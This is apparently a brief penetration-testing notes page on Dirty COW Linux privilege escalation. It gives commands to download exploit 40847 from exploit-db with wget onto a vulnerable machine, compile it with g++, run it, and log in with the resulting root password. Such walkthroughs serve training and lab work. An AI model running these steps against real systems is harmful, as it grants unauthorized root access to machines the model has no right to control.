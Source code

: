# Dirty COW Race Condition Privilege Escalation

On the vulnerable machine

Download the exploit code:

```bash
wget -O 40847.cpp https://www.exploit-db.com/download/40847
```


Compile:  
```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

Run: 
```
./dcow -s
```

Result:

![](/images/privesc/dirtycow.png)

Root user password: ```PoorLittleCow```

